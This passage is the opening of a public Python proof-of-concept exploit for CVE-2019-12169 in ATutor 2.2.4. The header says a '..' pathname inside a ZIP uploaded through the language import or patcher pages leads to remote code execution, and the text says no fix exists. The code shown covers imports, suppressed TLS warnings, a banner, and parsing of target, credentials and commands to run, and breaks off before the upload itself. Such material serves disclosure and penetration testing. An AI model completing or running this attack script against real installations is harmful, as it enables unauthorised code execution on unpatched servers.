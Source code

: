     # Software Link: https://sourceforge.net/projects/atutor/files/latest/download
    # Version: 2.2.4
    # Tested on: Windows 8 / Apache / MySQL (XAMPP)
    # CVE : CVE-2019-12169
    # Author Site: http://incidentsecurity.com/atutor-2-2-4-language_import-arbitrary-file-upload-rce/
    #            : https://github.com/fuzzlove
    #
    # Description: ATutor 2.2.4 allows Arbitrary File Upload and Directory Traversal
    # resulting in remote code execution via a ".." pathname in a ZIP archive to the mods/_core/languages/language_import.php (aka Import New Language) or mods/_standard/patcher/index_admin.php (aka Patcher) component.
    #
    # Greetz: wetw0rk, offsec ^^
    #
    # Notes: This application is no longer being maintained so there is no fix for this issue.

    import sys, hashlib, requests
    import urllib
    requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
    import time


    print "+-------------------------------------------------------------+"
    print
    print "- ATutor 2.2.4 Arbitrary File Upload / RCE [CVE-2019-12169]"
    print
    print "-          Discovery / PoC by liquidsky (JMcPeters) ^^"
    print
    print "+-------------------------------------------------------------+"

    try:
    #settings
        target   = sys.argv[1]
        username = sys.argv[2]
        password = sys.argv[3]
        commands = sys.argv[4]
